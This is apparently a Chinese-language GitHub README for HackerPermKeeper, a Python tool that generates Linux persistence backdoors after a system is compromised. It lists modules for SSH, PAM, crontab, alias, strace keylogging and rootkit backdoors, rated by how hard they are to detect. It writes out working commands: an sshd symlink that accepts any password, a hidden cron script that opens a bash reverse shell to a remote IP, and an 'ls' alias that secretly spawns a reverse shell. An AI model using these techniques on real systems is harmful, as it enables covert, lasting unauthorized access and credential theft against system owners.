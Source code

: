 # :lock:	HackerPermKeeper  
### 黑客权限保持者
<br/><br/>
  <p align="center">
    <a href="https://www.one-fox.cn/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-taoyuan.cool-blue" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    </a>
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/ytMuCheng/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/ytMuCheng/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
</p>




通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
<br/>
查看下面的表格可以知道生成的权限维持文件可以运行的python版本，但是这个项目本身是python3运行的

| :lock:权限维持模块                 | centos | Ubuntu | 推荐指数 | 备注                                                         | py2 | py3 |
| :--------------------------- | ------ | ------ | -------- | ------------------------------------------------------------ | ---------------------------- | ---------------------------- |
| OpenSSH后门万能密码&记录密码 |   :x:      |:heavy_check_mark:	    |:star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x: | :heavy_check_mark: |
| PAM后门                      | :x:     | :x:     | :star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x: | :x: |
| SSH软链接                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	       | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                  | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	:star:	:star:	    | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                     | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	      | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务              | :heavy_check_mark:	   | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                   |:heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	       | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门                  | :x:     | :x:    | :star:	:star:	:star:	      | 难以发现，但是安装复杂，而且指定内核版本                     | :x: | :x: |


## :rocket:快速使用
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/6b71f9b8-cbb4-42e3-8d1d-3a30e37163b8)

```
python3运行安全此项目，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/1d4af51c-dfbe-484e-b70f-009214a4635c)

```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/db6bb1ad-4b7d-44d8-b0bd-bd1cca3e56a7)

```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/6eb5f2c6-9870-4988-a2a8-67a8df71c0e2)
```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/5937624c-b75b-4b51-a197-118b5a14f393)

```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/6a816d82-201d-449d-b731-c0bd0d61232f)
```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/9c145fa7-01a9-45e6-bde3-1ecb973f16e7)




## :triangular_flag_on_post:	常见后门介绍
```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```
<br/><br/>
## :triangular_flag_on_post:	提交问题
有问题请提交issues<br/>
<a href="https://github.com/ytMuCheng/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/ytMuCheng/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
<br/><br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/ytMuCheng/HackerPermKeeper.svg)](https://starchart.cc/ytMuCheng/HackerPermKeeper) 




<a href="https://github.com/ytMuCheng">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=ytMuCheng"/>
</a>
<a href="https://github.com/ytMuCheng/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=ytMuCheng&layout=compact&langs_count=8&card_width=320" />
</a>

